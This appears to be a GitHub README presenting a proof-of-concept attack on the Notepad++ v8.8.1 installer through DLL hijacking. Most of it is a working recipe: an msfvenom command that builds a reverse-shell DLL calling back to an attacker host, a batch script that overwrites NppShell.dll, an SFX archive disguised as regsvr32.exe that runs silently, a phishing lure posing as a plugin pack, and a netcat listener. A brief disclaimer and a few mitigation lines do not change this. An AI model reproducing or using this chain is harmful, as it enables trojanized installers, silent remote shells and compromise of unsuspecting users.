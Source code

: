 # test-notepad-v8.8.1
this is what i do, and at the same time im learning too from everyone

"Here’s a new plugin pack for Notepad++ to improve your coding productivity! Download it now 💡✨"
yes it is pack with real installer and regsvr32.exe , and yes the attack starts there, phishing and social engineering at its best

# DLL Hijacking in Notepad++ v8.8.1: A Practical PoC Write-up

# Introduction
I tried demonstrate a proof-of-concept (PoC) exploit targeting Notepad++ v8.8.1, which is vulnerable to DLL hijacking via the NppShell.dll component(you also can try with others dll files within the notepad installer). This PoC shows how an attacker can achieve arbitrary code execution by planting a malicious DLL and tricking the application into loading it.

⚠️ Disclaimer: This write-up is for educational purposes only. Always test in isolated environments and never target unauthorized systems.

# What is DLL hijacking?
DLL hijacking is a well-known attack technique where an application loads a malicious DLL instead of a legitimate one due to insecure search paths or missing integrity checks. Once the application loads the malicious DLL, attacker-controlled code executes in the context of the application.

🛠️ Environment setup
Victim machine: Windows 11 with Notepad++ v8.8.1 installed

Attacker machine: Kali Linux (any ver)

Tools used: msfvenom, batch scripting, WinRAR (SFX builder)

#  Step-by-step exploit process
1️⃣ Create the malicious NppShell.dll
On Kali, generate a reverse shell DLL payload using msfvenom:

msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker_ip> LPORT=<attacker_port> -f dll -o NppShell.dll

2️⃣ Prepare an installer batch script
Write a simple install.bat:

echo off
cls
copy /Y NppShell.dll "C:\Program Files\Notepad++\contextMenu\NppShell.dll"
This script overwrites the legitimate NppShell.dll in Notepad++.

3️⃣ Bundle files using SFX archive
Bundle NppShell.dll and install.bat into a self-extracting (SFX) archive named regsvr32.exe.

Configure SFX to automatically run install.bat after extraction.

4️⃣ Deploy and execute

Place the Notepad++ v8.8.1 installer and the malicious regsvr32.exe in the same directory on the victim machine.

5️⃣ Trigger execution

The victim simply double-clicks the Notepad++ installer. Simultaneously, the crafted regsvr32.exe is launched stealthily, executing install.bat to overwrite NppShell.dll with the backdoored DLL.
Because the SFX configuration runs the batch script silently, the victim does not see any additional windows or warnings.
When Notepad++ installed, it automatically loads NppShell.dll. Because it now points to the attacker DLL, your reverse shell connects back to your Kali listener.

6️⃣ Boom! 🎯
On your Kali machine, listen for the shell:

nc -lvnp <attacker_port>
Once Notepad++ installed, connection established — you now have code execution on the victim.

#  Impact💥
This attack enables local privilege escalation or persistence if combined with initial access.

# Mitigation🛡️
Always upgrade to latest Notepad++ version 

Remove old or unused DLL files.

Apply strict file system permissions to prevent unauthorized modifications.

 # Important Notes ⚠️ 
This PoC only works during the installation phase.
It requires the victim to execute a trojanized installer package that includes your malicious DLL and script.
It does not work on already installed and running Notepad++ software if it was installed correctly before.

thankyouu!
